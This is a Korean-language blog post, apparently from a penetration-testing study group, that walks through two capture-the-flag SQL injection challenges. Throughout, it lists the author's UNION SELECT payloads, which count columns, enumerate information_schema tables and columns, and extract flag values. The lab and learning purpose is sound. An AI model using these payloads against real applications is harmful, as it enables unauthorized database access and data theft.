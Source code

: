 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

categories: [CTF]
tags: [TIL, WEB, DATABASE, CTF]
---
```


# 목차
* [1번째 문제](#1번째-문제)
* [2번째 문제](#2번째-문제)

# 1번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)  
    * 🤔 대소문자 구분이 없구나!
  
2. 🫣 **~~adminer'~~** -> X
  
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    * 🤔 like 구절이 있구나
  
4. 🫣 **~~a#~~** -> X
  
5. 🫣 **~~a'#~~** -> X
  
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    * 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    * 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
  
7. 🫣 **~~' and '1' = '1~~** -> X
  
8. 🫣 **~~%' and '1' = '1~~** -> X
  
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)
  
## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.
  
11. **' order by 1, 2, 3, 4, 5 #** -> X
    * 🤔 column의 개수가 4개구만
  
## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)
  
## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    * 💡 database 이름은 sqli_1이었다.
  
## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    * 💡 table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.
  
## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    * 💡 flag_table에서는 flag라는 column을 확인할 수 있었다.  
  
21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    * 💡 plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.
  
## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)
  
23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)
  
# 2번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.
  
## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    * 💡 보이는 column은 ID, Level, Rank Point, info  
  
2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    * 💡 ID가 입력한 그대로 보임  
  
3. 🫣 **~~*~~** -> X
  
## column 개수 파악하기
4. **normaltic' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.
  
5. **normaltic' order by 1, 2, 3, 4, 5 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)
  
6. **normaltic' order by 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)
  
7. **normaltic' order by 1, 2, 3, 4, 5, 6, 7 #** -> X
    * 🤔 column의 개수가 6개구만
  
## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. **' union select 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    * 💡 보이는 column은 6번 위치에 있었다.  
  
10. **' union select 1, 2, 3, 4, 5, database() #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    * 💡 database 이름은 sqli_5이다.
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 💡 table 이름은 flag_honey였다.
  
## COLUMN 이름 확인하기
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    * 💡 column 이름은 flag였다.
  
## DATA 추출하기
13. **' union select 1, 2, 3, 4, 5, flag from flag_honey #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    * 😬 어쩐지 구라핑의 냄새가 나더라
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 🤔 왜 1개씩 밖에 안 보일까?
        * 🤔 row가 딱 한 개다?
        * 🤔 row를 한 개씩만 보여준다?
            * 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            * 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?
  
12. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    * 💡 view라는 다른 table이 보여요 좋아요
    * 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네
  
13. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    * 💡 딱 봐도 수상한 table 이름이다.
  
## COLUMN 이름 확인하고 DATA 추출하기 1
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    * 💡 column 이름은 flag였다.  
  
13. **' union select 1, 2, 3, 4, 5, flag from secret #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    * 😬 아니 ㅋㅋㅋ 당했다
    * 🤔 여기서도 역순으로 정렬해볼까?  
  
15. **' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)